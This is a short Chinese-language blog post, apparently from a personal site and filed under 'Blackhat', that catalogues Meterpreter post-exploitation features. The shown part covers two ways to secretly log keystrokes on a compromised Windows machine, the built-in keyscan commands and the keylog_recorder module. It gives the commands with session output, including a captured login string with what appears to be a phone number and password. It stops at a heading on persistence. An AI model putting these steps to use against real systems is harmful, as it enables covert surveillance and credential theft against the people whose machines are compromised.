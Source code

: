 ```yaml
---
title: Meterpreter功能汇总
name: meterpreter
date: 2016-6-5
tags: [meterpreter,持久化访问,键盘嗅探,进程转移,清理日志]
categories: [Blackhat]
---
```


* 目录
{:toc}

---

# Meterpreter功能汇总

## 键盘嗅探的两种方式

### 通过meterpreter自带keyscan工具

```shell
# 开启键盘监听
meterpreter > keyscan_start
Starting the keystroke sniffer...

# 查询监听到的键盘信息
meterpreter > keyscan_dump
Dumping captured keystrokes...
jd.com15312069323 <Tab> 123456

# 停止键盘监听
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

### 通过post/windows/capture/keylog_recorder

```shell
# 使用post/windows/capture/keylog_recorder
meterpreter > run post/windows/capture/keylog_recorder

[*] Executing module against EVAN
[*] Starting the keystroke sniffer...
# 监听记录的文件位置
[*] Keystrokes being saved in to /root/.msf5/loot/20160604202319_default_192.168.3.11_host.windows.key_380125.txt
[*] Recording keystrokes...
```

## 多种持久化访问方式
